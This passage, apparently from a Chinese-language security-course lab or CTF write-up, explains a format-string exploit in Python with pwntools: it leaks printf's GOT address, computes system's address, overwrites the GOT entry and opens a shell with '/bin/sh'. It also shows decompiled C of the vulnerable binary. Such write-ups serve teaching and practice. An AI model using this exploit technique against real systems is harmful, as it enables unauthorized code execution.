 第一步根据调试，padding 到 128 字节的情况下最后八个字节（存放 printf GOT 地址）的参数偏移为 23，所以 payload 就是 %23$sAAAAA...AAA<addr\>。接下来第二步使用 fmtstr_payload，第三步直接输入就可以了：

```python
offset = 8

def padding(s, length, remain):
    return s + (length - len(s) - remain) * b"A"

printf_got = elf.got["printf"]
payload = b"%23$s"
payload = padding(payload, 128, 8)
payload += p64(printf_got)
info(f"payload = {payload}")
p.send(payload)

recv = p.recv()
printf_addr = u64(recv[:6]+b"\x00\x00")
system_addr = printf_addr - (libc.symbols["printf"] - libc.symbols["system"])
info(f"printf_addr = {hex(printf_addr)}")
info(f"system_addr = {hex(system_addr)}")
payload = fmtstr_payload(offset, {printf_got: system_addr}, write_size="short")
info(f"payload = {payload}")

p.send(payload)
p.send(b"/bin/sh\0")
p.interactive()
```

![](/assets/images/sec/software/lab1/echo.png)

## Bonus
IDA 逆向可以看到 main 函数的开头进行了两次系统调用：

```c 
...
  syscall(157LL, 38LL, 1LL, 0LL, 0LL, 0LL);
  syscall(317LL, 1LL, 0LL, &v6);
  for ( i = 0LL; i <= 3; ++i )
  {
    memset(s, 0, 0x100uLL);
    printf("size> ");
    read(0, s, 0xFuLL);
    v4 = atoi(s);
    if ( v4 <= 256 )
    {
      memset(s, 0, 0x100uLL);
      read(0, s, (unsigned __int16)v4);
      puts(s);
    }
  }
  return 0LL;
}
```

